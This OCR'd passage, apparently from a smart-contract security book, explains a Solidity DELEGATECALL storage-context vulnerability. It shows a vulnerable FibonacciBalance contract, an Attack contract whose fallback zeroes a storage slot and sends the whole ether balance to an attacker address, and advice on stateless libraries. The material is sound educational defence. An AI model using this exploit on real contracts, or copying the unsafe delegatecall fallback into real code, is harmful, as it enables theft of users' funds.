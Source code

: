 

```javascript
1 contract FibonacciBalance {
2
3 	address public fibonacciLibrary;
4 	// the current Fibonacci number to withdraw
5 	uint public calculatedFibNumber;
6 	// the starting Fibonacci sequence number
7 	uint public start = 3;
8 	uint public withdrawalCounter;
9 	// the Fibonancci function selector
10 	bytes4 constant fibSig = bytes4(sha3("setFibonacci(uint256)"));
11
12 	// constructor - loads the contract with ether
13 	constructor(address _fibonacciLibrary) public payable {
14 		fibonacciLibrary = _fibonacciLibrary;
15 	}
16
17 function withdraw() {
18 		withdrawalCounter += 1;
19 		// calculate the Fibonacci number for the current withdrawal user-
20 		// this sets calculatedFibNumber
21 		require(fibonacciLibrary.delegatecall(fibSig, withdrawalCounter));
22 		msg.sender.transfer(calculatedFibNumber * 1 ether);
23 	}
24
25 	// allow users to call Fibonacci library functions
26 	function() public {
27 		require(fibonacciLibrary.delegatecall(msg.data));
28 	}
29 }
```



```javascript
1 contract Attack {
2 	uint storageSlot0; // corresponds to fibonacciLibrary
3 	uint storageSlot1; // corresponds to calculatedFibNumber
4
5 	// fallback - this will run if a specified function is not found
6 	function() public {
7 		storageSlot1 = 0; // we set calculatedFibNumber to 0, so if withdraw
8 		// is called we don't send out any ether
9 		<attacker_address>.transfer(this.balance); // we take all the ether
10 	}
11 }
```



#### Preventative Techniques

Solidity provides the library keyword for implementing library contracts (see the
docs for further details). This ensures the library contract is stateless and non-selfdestructable.
Forcing libraries to be stateless mitigates the complexities of storage
context demonstrated in this section. Stateless libraries also prevent attacks wherein
attackers modify the state of the library directly in order to affect the contracts that
depend on the library’s code. As a general rule of thumb, when using DELEGATECALL
pay careful attention to the possible calling context of both the library contract and
the calling contract, and whenever possible build stateless libraries.

